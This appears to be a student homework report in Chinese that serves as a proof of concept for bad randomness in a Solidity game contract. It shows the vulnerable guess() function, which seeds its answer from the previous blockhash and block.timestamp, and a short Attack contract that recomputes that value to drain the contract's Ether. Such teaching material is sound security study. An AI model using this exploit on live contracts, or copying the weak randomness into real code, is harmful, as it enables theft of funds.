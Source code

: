## HW4 POC bad randomness Report

### 1. Description

solidity 智能合约有一些固定的鏈上訊息可以取得，加上智能合約有可組合性的特性

### 2. HW POC

- `Game.sol` 9 - 16 行
```solidity
    function guess(uint256 _guess, address _receiver) public {
        uint256 answer = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)));

        if (_guess == answer) {
            (bool sent,) = _receiver.call{value: address(this).balance}("");
            require(sent, "Failed to send Ether");
        }
    }
```
  answer 答案的組成為 `blockhash(block.number - 1), block.timestamp`，其中 `blockhash(block.number - 1)` 可以取得前一個區塊的 hash，而 `block.timestamp` 可以取得當前區塊的 timestamp，因此可以透過這兩個值來計算出答案，而且這個答案是可以被預測的。

- 因為區塊鏈可組合性，代表別的合約在正常情況下是可以被呼叫的，所以製作一個 Attack 合約去呼叫 `Game.sol` 的 `guess` 函數，並且傳入預測的答案，就可以獲得獎勵。
可由以下路徑查看 [Attack.sol](/w4/src/Attack.sol)

- 其中我們可以看到合約呼叫下  `block.number - 1`  `block.timestamp` 互相呼叫，直都是相同的
![image](/w4/images/result-1.png)

- 所以在 Attack.sol 做出相同的動作，就可以發現其狀況

```solidity
    function attack() public {
        uint256 answer = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)));
        game.guess(answer, msg.sender);
    }
```

